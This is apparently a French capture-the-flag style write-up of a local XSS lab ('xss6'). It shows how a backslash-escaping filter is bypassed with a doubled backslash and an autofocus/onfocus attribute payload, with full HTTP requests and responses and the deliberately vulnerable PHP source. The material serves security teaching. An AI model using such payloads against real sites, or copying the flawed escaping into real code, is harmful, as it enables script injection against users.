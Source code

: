 # xxs6

## Exploitation

Afin de protéger l'application, l'auteur indique qu'il échappe maintenant le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (29) (2).png>)

Le caractère `"` subit effectivement un traitement, il s'agit d'un échappement par l'insertion du caractère `\` :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2100
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\"" placeholder="keyword" required>
</div>
```

![](<../../../.gitbook/assets/image (47).png>)

Le contournement qui me parait le plus évident à tester est d'insérer également un caractère `\` afin d'échapper l'échappement :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2101
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\"" placeholder="keyword" required>
</div>
```

Cela semble fonctionner :&#x20;

![](<../../../.gitbook/assets/image (50).png>)

Il ne me reste plus qu'à adapter ma payload basée sur l'autofocus `whatever\" onfocus=alert(1) autofocus x=\"` (attention, j'enlève également les guillemets autour du code Javascript) :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22+onfocus%3Dalert%281%29+autofocus+x%3D%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2134
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\" onfocus=alert(1) autofocus x=\\"" placeholder="keyword" required>
 </div>       
```

![](<../../../.gitbook/assets/image (28).png>)

## Analyse du code source

La fonction `xss_check()` effectue un traitement sur le caractère `"` qui se retrouve échappé par l'ajout d'un `\` devant chaque occurrence. Le mot clé est ensuite affiché en tant que valeur de l'attribut HTML `value` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace('"', '\"', $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
